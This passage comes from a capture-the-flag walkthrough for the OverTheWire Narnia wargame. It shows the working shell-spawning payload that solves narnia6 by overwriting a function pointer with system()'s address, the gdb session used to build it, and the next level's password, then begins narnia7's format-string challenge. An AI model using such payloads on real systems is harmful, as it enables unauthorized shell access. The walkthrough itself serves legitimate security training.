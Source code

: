 ```c
        setreuid(geteuid(),geteuid());
    fp(b1);

        exit(1);
}

```

```bash
narnia6@narnia:/narnia$ /usr/local/bin/checksec.sh --file /narnia/narnia6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /narnia/narnia6
```
The stack is not executable, so we should maybe do a ret2libc attack. It looks like we can overwrite the *fp function pointer*, we could replace it with *system()*.

```bash
narnia6@narnia:/narnia$ gdb -q /narnia/narnia6
Reading symbols from /narnia/narnia6...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x80485ac
(gdb) r 
Starting program: /narnia/narnia6 

Breakpoint 1, 0x080485ac in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e4c850 <system>

```
Testing by hand, it looks like system takes as argument what is in the second buffer.
```bash
narnia6@narnia:/narnia$ ./narnia6 AAAA $(printf "AAAAAAAAsh;BCCCC\x50\xc8\xe4\xf7")
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu

# This also works
/narnia/narnia6 AAAA $(printf "AAAAAAAA/bin/sh;\x50\xc8\xe4\xf7")
```

## Narnia7 - password : ahkiaziphu
-> format string vuln
```bash
ssh narnia7@narnia.labs.overthewire.org -p 2226
```

Source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
```